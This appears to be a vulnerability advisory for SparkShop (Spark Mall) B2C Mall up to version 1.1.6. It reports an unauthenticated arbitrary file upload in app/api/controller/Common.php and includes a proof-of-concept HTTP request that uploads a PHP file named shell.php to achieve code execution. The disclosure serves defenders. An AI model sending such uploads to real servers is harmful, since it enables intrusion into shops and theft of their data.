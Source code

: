 ### BUG_Author:

Rui Jie

### Affected version:

<=1.1.6

### Vendor:

Nanjing Xingyuantu Technology Co. 

SparkShop(Spark Mall) B2C Mall https://www.sparkshop.cn/
### Software:

https://gitee.com/sparkshop/sparkshop


https://github.com/nick-bai/sparkshop

### Vulnerability File:

app/api/controller/Common.php
### Description:
 A vulnerability categorised as critical has been discovered in SparkShop (Spark Mall) B2C Mall. This affects sections of the unauthorised interface file app/api/controller/Common.php. Manipulation of the parameter file results in arbitrary file uploads



![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271558047.png)
And there's no security check on the file upload part
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202406271559268.png)
We can upload any file via unauthorised api for RCE purposes.


POC
```
POST /api/Common/uploadFile HTTP/1.1
Host: 127.0.0.5
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 166
Content-Type: multipart/form-data; boundary=5f0c1dda2c37ae232c96415ad53dc96b


--5f0c1dda2c37ae232c96415ad53dc96b
Content-Disposition: form-data; name="file"; filename="shell.php"

<?=phpinfo();?>

--5f0c1dda2c37ae232c96415ad53dc96b--
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121552216.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121557807.png)


We achieved RCE by uploading a malicious php script


